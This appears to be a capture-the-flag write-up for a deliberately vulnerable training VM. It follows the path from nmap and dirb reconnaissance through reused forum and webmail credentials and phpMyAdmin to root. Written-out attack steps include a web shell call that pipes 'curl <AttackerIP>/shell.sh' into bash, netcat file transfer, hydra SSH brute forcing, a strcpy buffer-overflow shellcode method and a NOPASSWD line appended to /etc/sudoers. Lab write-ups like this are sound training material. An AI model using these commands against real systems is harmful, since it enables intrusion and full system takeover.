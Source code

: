 # 1. INFORMATION GATHERING

As the network config changes depending on the virtualization system used, we start by getting our IP address and scanning the network

```
ifconfig
```

```
nmap -T4 <Network>
```

![](./img/01-ifconfig.png)
![](./img/02-nmap_network.png)

Thanks to the info obtained, we can test our connectivity to the system and know the target OS based on the TTL

```
ping <TargetIP>
```

![](./img/03-ping.png)

As the TTL is 64, we can assume that the server is running on Linux. We can proceed with the port scan

```
nmap -sV -sC -p- -T4 <TargetIP>
```

![](./img/04-nmap_target.png)

The interesting open ports found are 21-ftp, 22-ssh, 80-http, 143-imap, 443-https, 993-ssl/imap. After examination, nothing seemed vulnerable in the ftp, http and ssh services.

Inspecting the https service, we discovered three different directories

```
dirb https://<TargetIP>
```

![](./img/05-dirb.png)

The directories /phpmyadmin and /webmail need authentication, we'll thus focus on /forum

In the /forum webpage, we found a list of users as well as some posts. One of those contains a log report, posted by lmezard. Reading carefully, we encountered a logging attempt from a user called "!q\]Ej?*5K5cy*AJ"

![](./img/06-forum_post.png)

# 2. EXPLOITATION

We intuit that the username was in fact a password. As the next succesfull login was done by lmezard, we could login with these credentials.

Once logged in as lmezard, we got their email address by having a look at their profile page. We now have the user's email : laurie@borntosec.net

![](./img/07-forum_profile.png)

Using this email address and the previously obtained password, we successfully logged in the /webmail service. Checking the inbox, we encounter an exchange about access to the database, giving us the credentials for the user's database root.

![](./img/08-db_creds.png)

We can now authenticate in the /phpmyadmin service, gaining access to the DB. As the compromised user is root, it is likely that we have file permissions on the system. Therefore, we can try to gain access to the server by injecting PHP code to an accessible file by making use of a reverse shell.

![](./img/09-RCE.png)

```
https://<TargetIP>/forum/templates_c/rce.php?cmd=curl <AttackerIP>:<HttpPort>/shell.sh | bash
```

# 3. POST EXPLOITATION

After some basic local enumeration, we can get the following information:
- We are indeed in the target system, as the local IP is the same as the target IP
- The user running the web app is www-data
- The kernel version is Linux ? (Read writeup 2!)
- We have reading permissions over /home/LOOKATME/password

Reading the file reveals the system credentials for lmezard, although ssh connection is restricted for this user.

```
cat /home/LOOKATME/password
```

```
ssh lmezard@<IP>
```

```
su lmezard
```

![](./img/10-lmezard.png)

## fun

In lmezard's home directory, we can find a compressed file called "fun" and a README. We download and decompress the file for further analysis.

- In attacker:

```
nc -nlv <port> > fun
```

- In target system:

```
nc <IP> <port> < fun
```

```
tar -xvf ./fun
```

The README suggests that solving the challenge will allow us access to the user laurie via SSH.

Analyzing fun, we get pieces of information to reconstruct the password. 

```
cat ft_fun/* | grep printf | grep -v haha
```

```
cat ft_fun/* | grep getme -A 3 | grep -v haha
```

```
cat ft_fun/* | grep return | grep -v haha
```

We deduce that the password lenght is 12, ending with "wnage" and that we need to hash the resulting string before attempting to log in, using SHA256. The characters left to order are "Iepthar".

In order to automate the login attempts, we employed our own password generation script, and hydra, to brute force the attempts. The script generates every possible permutation of the left characters, joins it to the known piece of password, and hashes the result.

```
python3 laurie.py | awk '{print $5}' > laurie_passwd.txt
```

```
hydra -l laurie -P ./laurie_passwd.txt <TargetIP> ssh -v
```

Hydra returns one successful login, using the string "Iheartpwnage", hashed.

## bomb

The files present in laurie's home directory are a binary executable file called "bomb" and a README, explaining us how to log in as the user thor.

The bomb is a program composed of six levels, each one waiting for the user's input and, in case of error, exploding. The README helps us, giving us some hints and stating that, by joining the inputs used to defuse each phase, we can obtain thor's password.

In order to understand how to solve each level, we decompiled the file using this online service: https://dogbolt.org/

***Phases***

- Phase 1 : compares the input with the string "Public speaking is very easy." -> input : "Public speaking is very easy."

- Phase 2 : takes 6 numbers as input, input[i + 1] = input[i] * (input[i] + 1), with 1 as input[0] -> input : "1 2 6 24 120 720"

- Phase 3 : takes a combination of one number, one char and another number. 7 combinations work, but thanks to the hints, we can keep only 3 of them : "1 b 214 / 2 b 755 / 7 b 524" -> input : "1 b 214"

- Phase 4 : one number expected, > 0. Brute forcing it, we got "9"

- Phase 5 : receives a string, applies an algorithm on every character. The result should be equal to "giants". Testing every letter, we got -> input : "opekmq" (or opekma)

- Phase 6 : receives 6 numbers. Each one should be between 0 and 6, and 2 consecutive numbers can't be equal. Knowing that, we could brute force the password -> input : "4 2 6 3 1 5"

- Secret phase : can be accessed by adding "austinpowers" to the fourth input -> "9 austinpowers". Receives a number > 0 and <= 1001. By brute force (again) -> input : "1001" (Turned out to be useless)

The subject hints that we have to swap the second-to-last and third-to-last characters to form the right password.

- Final password for thor: ```Publicspeakingisveryeasy.126241207201b2149opekmq426135```

**turtle**

The README file present in thor's home directory tells us to use the result of the challenge "turtle" as password for "zaz".
In "turtle" we find instructions in French seeming to describe a path. Drawing it on paper, we end up writting "SLASH".
We have to "digest" the password to use it. We therefore apply md5 (message digest) on "SLASH".

```
echo -n "SLASH" | md5sum
```

**buffer overflow**

The directory /home/zaz contains an interesting file, a SUID binary that belongs to root.

```
./exploit_me Hello

Hello
```

```
strings ./exploit_me
```

The program prints the argument received. Exploring the readable content of the file reveals the use of the insecure function strcpy. Assuming a buffer being used, we can try to perform a buffer overflow in order to gain root access by executing a shellcode.

The file decompilation supports our idea. The program uses a buffer of 140 bytes.

1. Localize the buffer address to overwrite the Extended Instruction Pointer (EIP)
2. Fill the buffer with a NOP sled, allowing imprecisions. This will ensure the execution of the payload
3. Concatenate the shellcode, executing /bin/sh
4. Smash EIP with the buffer memory address obtained in step one. This directs the execution flow to the NOP sled

We coded a python script to generate the final payload.

```
./exploit_me $(python payload.py)
```

```
echo 'zaz ALL=NOPASSWD: ALL' >> /etc/sudoers && sudo su
```

```
id
```

![](./img/11-root.png)
